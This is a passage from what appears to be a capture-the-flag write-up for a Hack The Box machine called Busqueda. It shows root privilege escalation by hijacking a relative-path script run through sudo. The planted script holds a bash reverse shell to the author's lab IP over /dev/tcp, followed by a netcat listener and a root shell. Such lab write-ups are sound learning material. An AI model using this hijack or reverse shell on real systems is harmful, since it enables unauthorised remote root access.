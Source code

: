 ```bash
[+] gitea.searcher.htb is up

[=] PM2 processes
┌─────┬────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name   │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 0   │ app    │ default     │ N/A     │ fork    │ 1657     │ 6h     │ 0    │ online    │ 0%       │ 29.1mb   │ svc      │ disabled │
└─────┴────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘

[+] Done!
```

I was stuck at this point for a bit and cd'ed back to the users home directory. I ran the previous commands again and when I ran the __full-checkup__ command again, it returned __Something went wrong__. Since this is an easy level box I am going to assume that this is happening because the __system-checkup.py__ script is expecting a relative path for the __full-checkup (*full-checkup.sh*)__ argument for it to be run (*i.e. the script is expecting to be run from the /opt/script directory. This just means that there is no logic in the script that can allow it to be run from anywhere in the file system*).

To exploit this lets create a new script also called __full-checkup.sh__ in the __svc__ user's home directory. Add the following to the script:

```bash
#!/bin/bash

bash -i >& /dev/tcp/ip_addr/port 0>&1
```

Now mark the script as executable. Next start a netcat listener on your local machine. Now we are ready to run the exploit!

```bash
Victim machine
-----
svc@busqueda:~$ vi full-checkup.sh
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
svc@busqueda:~$ cat full-checkup.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.21/9090 0>&1
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
-----
Local
-----
h0ax@h0ax:~/Desktop/htb/htb-machines/easy-level/busqueda$ nc -lvnp 9090
Listening on 0.0.0.0 9090
Connection received on 10.10.11.208 54330
root@busqueda:/home/svc# 

root@busqueda:/home/svc# 

root@busqueda:/home/svc# cd /root
cd /root
root@busqueda:~# cat root.txt
cat root.txt
_do_it_urself_;)
```

Happy hacking everyone!